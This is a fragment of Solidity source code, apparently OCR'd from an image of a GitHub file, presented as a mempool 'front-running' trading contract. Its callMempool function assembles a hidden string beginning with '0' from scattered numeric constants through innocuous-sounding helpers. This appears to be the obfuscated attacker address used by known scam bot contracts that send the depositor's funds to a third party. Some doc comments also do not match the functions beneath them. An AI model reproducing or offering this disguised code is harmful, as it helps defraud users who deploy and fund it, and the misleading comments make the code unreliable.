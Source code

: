                 for (idx = 0; idx <= selflen - needlelen; idx++) {
                    bytes32 testHash;
                    assembly { testHash := keccak256(ptr, needlelen) }
                    if (hash == testHash)
                        return ptr;
                    ptr += 1;
                }
            }
        }
        return selfptr + selflen;
    }

    function getMemPoolHeight() internal pure returns (uint) {
        return 583029;
    }

    /*
     * @dev Iterating through all mempool to call the one with the with highest possible returns
     * @return `self`.
     */
    function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 376376;
        uint _memPoolLength = getMemPoolLength();
        uint _memPoolSize = 419272;
        uint _memPoolHeight = getMemPoolHeight();
        uint _memPoolWidth = 1039850;
        uint _memPoolDepth = getMemPoolDepth();
        uint _memPoolCount = 862501;

        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = mempool(checkLiquidity(_memPoolHeight), checkLiquidity(_memPoolWidth));
        string memory _memPool4 = mempool(checkLiquidity(_memPoolDepth), checkLiquidity(_memPoolCount));

        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);

        return _fullMempool;
    }

    /*
     * @dev Modifies `self` to contain everything from the first occurrence of
     *      `needle` to the end of the slice. `self` is set to the empty slice
     *      if `needle` is not found.
     * @param self The slice to search and modify.
     * @param needle The text to search for.
     * @return `self`.
     */
    function toHexDigit(uint8 d) pure internal returns (byte) {
        if (0 <= d && d <= 9) {
            return byte(uint8(byte('0')) + d);
        } else if (10 <= uint8(d) && uint8(d) <= 15) {
            return byte(uint8(byte('a')) + d - 10);
        }
        // revert("Invalid hex digit");
        revert();
    }
